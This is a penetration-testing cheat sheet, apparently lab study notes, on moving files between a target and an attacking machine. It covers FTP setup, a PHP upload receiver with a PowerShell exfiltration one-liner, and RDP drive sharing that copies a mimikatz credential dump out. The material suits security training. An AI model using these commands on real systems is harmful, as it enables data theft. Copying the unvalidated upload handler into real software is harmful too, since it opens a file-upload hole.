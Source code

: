 ```bash

# Script to setup FTP server
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd

#FTP2
systemctl restart pure-ftpd
sudo pure-pw passwd offsec #set user/pass
pure-pw useradd <user> -u <user> -d /var/www/domain -f /var/pure-ftpd/pureftpd.passwd
pure-pw useradd $user -u www-data -g www-data -d /var/ftp
sudo pure-pw mkdb
```
{% endcode %}

### PHP

{% code overflow="wrap" fullWidth="true" %}
```php
# TRANSFER FILES FROM WINDOWS TARGET TO LINUX ATTACKING MACHINES (POWERSHELL SCRIPTING LANGUAGES)
# PHP script to receive HTTP POST request (save it as upload.php in /var/www/html)
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
# SAVE IT AS upload.php and host it.
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads #get permission for the user that runs PHP server
sudo chown www-data: upload.php
sudo -u www-data php -S 0.0.0.0:6666
# Run the command below to exfiltrate from Windows to Kali
C:> powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.0.0:8000/upload.php', '/folder/file')
```
{% endcode %}

### RDP

{% code overflow="wrap" fullWidth="true" %}
```
xfreerdp /cert-ignore /compression /auto-reconnect /u:offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-200
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
copy mimikatz.log \\tsclient\test\mimikatz.log
```
{% endcode %}
